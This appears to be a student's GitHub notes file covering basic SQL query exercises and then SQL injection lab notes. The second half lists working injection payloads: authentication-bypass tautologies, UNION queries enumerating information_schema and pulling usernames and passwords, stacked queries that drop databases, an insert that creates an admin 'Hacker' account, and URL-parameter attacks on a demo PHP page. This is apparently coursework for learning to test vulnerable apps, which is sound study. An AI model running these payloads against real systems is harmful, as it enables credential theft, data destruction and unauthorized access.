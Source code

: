 
# SQL 1-11
```sql
mysql
show DATABASE
use SESSION
#viewing table SESSION
show TABLES /*this will show the currrent tables in the SESSION*/
select * from Tires /*This will allow you to view the selections under the tires table*/
SELECT * from user;
SELECT name,pass from user;
SELECT * from Tires UNION Select * from user; /*This won't work due to the two tables not having the same amount of columns*/
@@version - /*This will show you the current version of the database*/
Select * Tires UNION Select 1, "test" ,3,4
----\
/*List the last four Pixar movies released (ordered from most recent to least)*/
SELECT title, year FROM movies
ORDER BY year DESC
LIMIT 4;
/*List the first five Pixar movies sorted alphabetically*/
SELECT title FROM movies
ORDER BY Title ASC
LIMIT 5 /*next 5 add offset*/
OFFSET 5
/*List all the Canadian cities and their populations*/
SELECT * FROM north_american_cities 
WHERE Country LIKE "%Canada%"
/*Order all the cities in the United States by their latitude from north to south*/
SELECT city, latitude FROM north_american_cities
WHERE country = "United States"
ORDER BY latitude DESC;
/*List the two largest cities in Mexico (by population)*/
SELECT city, longitude FROM north_american_cities
WHERE longitude < -87.629798
ORDER BY longitude ASC;
/*List the two largest cities in Mexico (by population) */
SELECT city, population FROM north_american_cities
WHERE country LIKE "Mexico"
ORDER BY population DESC
LIMIT 211
/*List the third and fourth largest cities (by population) in the United States and their population*/
SELECT city, population FROM north_american_cities
WHERE country LIKE "United States"
ORDER BY population DESC
LIMIT 2
OFFSET 2;
/*Show the sales numbers for each movie that did better internationally rather than domestically*/
SELECT title, domestic_sales, international_sales
FROM movies
  JOIN boxoffice
    ON movies.id = boxoffice.movie_id
WHERE international_sales > domestic_sales;
/*List all the movies by their ratings in descending order*/
SELECT title, Rating
FROM movies
  JOIN boxoffice
    ON movies.id = boxoffice.movie_id
ORDER BY Rating DESC
```
# 11-13
```sql
BEFORE INPUT
SELECT Id FROM users WHERE name='rob' AND pass='bob'
injecting statement in passfield(true statement)
SELECT Id FROM users WHERE name='rob' OR 1='1' AND pass='rob' OR 1='1'
SELECT name,pass from user WHERE name='rob' OR 1='1';
/*stacking Statements*/
select * from Tires; Select * from user
create database test 
drop database test
/*ignore the rest*/
create DATABASE test;# drop DATABASE test;
/*sql nesting is it sanitized*/
STEP1 true stamenet, it is grabale
Audi' or 1='1
Ford' or 1='1
RAM' or 1='1

/*how to pull out all information from a table */
STEP 2Audi' UNION SELECT 1,2,3,4,5;#'
/* sql nesting is it sanitized */
UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #
/*Golden Statement */
STEP 3UNION SELECT table_schema,table_name,column_name FROM information_schema.columns; #
----------------------------------------------------------------------------------------
/* ADD YOUR GOD DAMN QUOTES!!!!!!!!!!!!!
- these are used to pull columns from a database to find key information
*/
Audi UNION SELECT 1,2,table_name,4,5 FROM information_schema.tables #                          
Audi UNION SELECT 1,2,3,table_schema,table_name FROM information_schema.tables; #  
Audi UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #     -- "Golden" statement 
Audi UNION SELECT 1,2,3,name,size FROM session.Tires; #    
Audi UNION SELECT @@version,database(),3,name,size FROM session.Tires; #
````
Audi' UNION SELECT 1,2,table_name,4,5 FROM information_schema.tables #     ''      
RAM' UNION SELECT table_schema,table_name FROM sqlinjection; #
RAM 
RAM' UNION SELECT table_name(name of the table), column_name(name of the column) FROM information_schema.columns; # 
-------------------------------------------------------------------

RAM' UNION SELECT id, order FROM sqlinjection.payments; #'
RAM' UNION SELECT mime,data FROM sqlinjection.share4;# 
INSERT INTO members ('Hacker', '', 'Hacker', 'hacker', 'hacker@email.com', 1)
 VALUES ('Hacker', '', 'Hacker', 'hacker', 'hacker@email.com', 1) 
INSERT INTO members (first_name, last_name, username, password, email, permission) VALUES ('''', '''', ''', '''', '''', 3) 
hacker1', 'hacker@email.com', 1)#

-------------------------------------------------------------------

/*finding the version */
RAM' UNION SELECT @@version,database(); #
RAM' UNION SELECT username, password FROM sqlinjection.payments; # good
RAM' UNION SELECT 1, column_name FROM sqlinjection.tables; #
RAM' UNION SELECT table_name, column_name FROM information_schema.columns; #  THIS ONE TO START  ''                
RAM' UNION SELECT id, name FROM sqlinjection.catagories; #
Audi' UNION SELECT username,NULL,passwd,4,5 FROM session.userinfo;#           ''
/* SINGLE QUOTES, SPELLING, NULL, CORRECT COLUMNS, CORRECT DATABASE*/       
----------------------------------------------------------------------------------------
<URL>/uniondemo.php?Selection=2 UNION SELECT 1,table_name,3 FROM information_schema.tables
<URL>/uniondemo.php?Selection=2 UNION SELECT 1,table_schema,table_name FROM information_schema.tables
<URL>/uniondemo.php?Selection=2 UNION SELECT table_name,1,column_name FROM information_schema.columns
<URL>/uniondemo.php?Selection=2 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
<URL>/uniondemo.php?Selection=2 UNION SELECT null,name,color FROM car
/* Gl into the web browser to edit the java stuff */
inspect -> change POST to get -> UN: bobby PW Audi' or 1='1
SELECT name, descpoolription, price FROM products WHERE category=

